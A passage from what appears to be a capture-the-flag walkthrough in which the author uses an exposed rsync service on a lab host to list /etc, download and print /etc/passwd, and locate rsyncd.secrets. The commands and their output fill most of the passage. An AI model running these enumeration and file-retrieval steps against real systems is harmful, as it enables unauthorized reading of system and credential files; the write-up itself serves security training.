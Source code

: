    drwxr-xr-x          4,096 2019/08/31 15:56:06 .
    -rw-r--r--          2,981 2019/07/27 03:01:29 adduser.conf
    -rw-r--r--             44 2019/07/27 03:03:30 adjtime
    -rw-r--r--          1,994 2019/04/18 00:12:36 bash.bashrc
    -rw-r--r--            367 2018/03/02 15:03:58 bindresvport.blacklist
    -rw-r--r--          5,713 2019/07/27 03:07:27 ca-certificates.conf
    -rw-r--r--          1,042 2019/06/23 13:49:01 crontab
    -rw-r--r--          2,969 2019/02/26 04:30:35 debconf.conf
    -rw-r--r--              5 2019/04/19 07:00:00 debian_version
    -rw-r--r--            604 2016/06/26 16:00:56 deluser.conf
    -rw-r--r--            346 2018/01/14 16:27:01 discover-modprobe.conf
    ...[snip]...
    

I can get the `/etc/passwd` file:

    
    
    root@kali# rsync -a rsync://[dead:beef::0250:56ff:fe88:e5fa]:8730/etc/passwd
    root@kali# cat passwd 
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
    systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
    systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
    sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
    roy:x:1000:1000:roy,,,:/home/roy:/bin/bash
    systemd-coredump:x:999:999:systemd Core Dumper:/:/sbin/nologin
    postgres:x:106:113:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
    

roy is the most interesting account.

I’ll also look at the rsync related files:

    
    
    root@kali# rsync --list-only -a rsync://[dead:beef::0250:56ff:fe88:e5fa]:8730/etc/rsync*                                 
    -rw-r--r--          2,929 2019/08/31 15:56:06 rsyncd.conf
    -rw-r--r--            558 2019/07/27 06:39:04 rsyncd.motd
    -r--------             13 2019/07/27 06:43:25 rsyncd.secrets
    